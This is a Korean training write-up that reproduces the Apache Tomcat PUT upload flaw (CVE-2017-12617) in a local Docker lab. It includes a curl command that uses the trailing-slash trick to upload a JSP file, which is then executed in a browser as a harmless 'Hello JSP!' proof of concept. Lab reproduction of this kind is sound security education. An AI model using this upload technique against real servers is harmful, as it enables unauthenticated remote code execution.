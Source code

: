 # Apache Tomcat PUT Upload 취약점 (CVE-2017-12617)

## 화이트햇 스쿨 3기 35반 편정혜\_9212

## 취약점 정보

- **CVE ID**: CVE-2017-12617
- **취약점 설명**: Apache Tomcat 7.0.0 ~ 7.0.81 (Windows 환경)에서 HTTP PUT 메서드를 이용해 인증 없이 JSP 파일 업로드 및 실행이 가능합니다.
- **공격 방식**: HTTP PUT 메서드를 이용하여 JSP 파일 업로드 후 실행
- **영향**: 원격 코드 실행 (RCE)
- **공식 설명 링크**: [https://nvd.nist.gov/vuln/detail/CVE-2017-12617](https://nvd.nist.gov/vuln/detail/CVE-2017-12617)

## 환경 구축

- Docker
- docker-compose
- 테스트 브라우저: Chrome
- 터미널: CMD (또는 PowerShell)
- 운영체제: Windows 10

## 실행

### 1. 취약 환경 레포 클론

kr-vulhub 저장소를 클론하여 CVE-2017-12617로 이동합니다.

`git clone https://github.com/gunh0/kr-vulhub.git`

[https://github.com/gunh0/kr-vulhub](https://github.com/gunh0/kr-vulhub)

### 2. 컨테이너 빌드 및 실행

Docker를 이용하여 Tomcat 서버를 빌드 및 실행합니다.

`docker-compose up --build`

![server-build](./capture1.png)

이후 http://localhost:8080으로 접속이 가능합니다.

![server-start](./capture2.png)

### 3. shell.jsp 파일 업로드

PUT 메서드를 이용하여 JSP 파일을 업로드합니다.

`curl -v -X PUT "http://localhost:8080/shell.jsp/" --data-binary "<% out.println(\"Hello JSP!\"); %>"`

업로드가 정상적으로 완료되면 HTTP/1.1 201 Created 또는 204 No Content 응답을 받습니다.

![Shell-jsp](./capture3.png)

### 4. 브라우저로 JSP 파일 실행

브라우저의 주소창에 다음 URL을 입력하여 업로드 된 파일을 실행합니다.

`http://localhost:8080/shell.jsp`

이 때, "Hello JSP!" 문구가 출력되면 PoC 성공입니다.

![Hello-JSP](./capture4.png)

## 결론

이번 실습에서는 Apache Tomcat 7.0.81 버전의 PUT 메서드 취약점을 이용하여 인증 없이 JSP 파일을 업로드하고 실행하는 과정을 재현하였습니다.
Docker를 이용해 취약 환경을 구축하였으며, curl 명령어를 통해 shell.jsp 파일을 업로드하고 브라우저에서 직접 "Hello JSP!" 문구가 출력되는 것을 확인했습니다.
이를 통해 Tomcat 서버의 설정 미비가 심각한 보안 위협(RCE)으로 이어질 수 있음을 실습을 통해 검증할 수 있었습니다.

---

### Github repository

- 35반 편정혜 github 레포: [https://github.com/rainyhye/kr-vulhub](https://github.com/rainyhye/kr-vulhub)
- 35반 편정혜 Pull Request 링크 : [https://github.com/gunh0/kr-vulhub/pull/285](https://github.com/gunh0/kr-vulhub/pull/285)
